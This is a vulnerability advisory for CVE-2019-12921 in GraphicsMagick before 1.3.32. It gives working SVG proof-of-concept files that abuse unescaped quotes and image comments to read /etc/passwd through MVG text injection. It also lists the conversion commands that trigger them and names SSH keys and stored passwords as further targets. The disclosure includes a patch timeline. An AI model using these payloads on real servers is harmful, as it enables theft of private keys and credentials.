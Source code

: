 # Data Processing Libraries. Part II



GraphicsMagick before 1.3.32 allows malicious user to get access to arbitary file on vulnerable server.
<!--more-->

# CVE-2019-12921
- Title:         Arbitary file read at TranslateTextEx GraphicsMagick before 1.3.32
- Scope:         http://hg.code.sf.net/p/graphicsmagick/code/
- Weakness:      Information Disclosure
- Severity:      High
- Date:          2019-06-24 12:21:30 +0000
- By:            @d4d

### Arbitary file read at TranslateTextEx GraphicsMagick before 1.3.32

Local file read vulnerability affects GraphicsMagick multiple decoders that may use MVG syntaxis by default. Malicious user can get access to the local file content.
To exploit this vulnerability untrusted user file should be converted to another format with command:

```bash
gm convert exploit.svg output.png
```

exploit.svg is:

```xml
<?xml version="1.0" standalone="no"?>
<!DOCTYPE svg PUBLIC "-//W3C//DTD SVG 1.1//EN"
  "http://www.w3.org/Graphics/SVG/1.1/DTD/svg11.dtd">
<svg width="1237px" height="1237px" version="1.1"
	xmlns="http://www.w3.org/2000/svg" xmlns:xlink= "http://www.w3.org/1999/xlink">
	<image 
	xlink:href="http://www.google.com/images/branding/googlelogo/2x/googlelogo_color_272x92dp.png' text 128,128 '@/etc/passwd" 
	x="0" y="0" height="137px" width="137px"/>
</svg>
```

Exploit inject custom TextPrimitive inside ImagePrimitive at MVG coder. SVG coder when reads xlink:href attribute do not properly escape ' and any MVG commands can be injected. Function AnnotateImage(annotate.c) reads text from file with TranslateTextEx that accepts '@' as local file.

Malicious user can exploit this vulnerability at image attributes generation process for SVG coder too. 
Attributes generation process at some of the images such as SVG have issue that may allow malicious user read any local file contents.

```bash
gm convert exploit.svg output.png
```

exploit.svg is:

```xml
<?xml version="1.0" standalone="no"?>
<!--@/etc/passwd-->
<!DOCTYPE svg PUBLIC "-//W3C//DTD SVG 1.1//EN" "http://www.w3.org/Graphics/SVG/1.1/DTD/svg11.dtd">
<svg width="1237px" height="1237px" version="1.1" xmlns="http://www.w3.org/2000/svg" xmlns:xlink= " http://www.w3.org/1999/xlink"> <image 
	xlink:href="http://www.google.com/images/branding/googlelogo/2x/googlelogo_color_272x92dp.png" 
	x="0" y="0" height="137px" width="137px"/></svg>
```

Function SetImageAttribute(Image \*image,const char \*key,const char \*value) do not properly translate comments and label for this image that allow attacker to get file contents when image attributes will be written for image formats like JPEG and GIF. To reproduce vulnerability convert image:
```bash
gm convert exploit.svg output.gif
```
```bash
gm convert exploit.svg output.jpeg
```
Image attributes (comments section) will contains file contents.

### Timeline
- Reported to project maintainers: 6 Jun 2019
- Acknowledged: 6 June 2019
- Patched: 6 June 2019
- Released: 15 June 2019
- CVE Assigned: 20 June 2019
- Advisory confirmed by project maintainers: 20 June 2019

### Impact

We are using /etc/passd file for our PoC. The passwd file is not really very sensitive on modern systems. But real malicious user can get access to the ssh private keys used for host authentication or ssh private keys without a password are more useful.  Passwords are often baked into files such as Mercurial's hgrc file.  X11's .Xauthority file might be useful on an active desktop system.

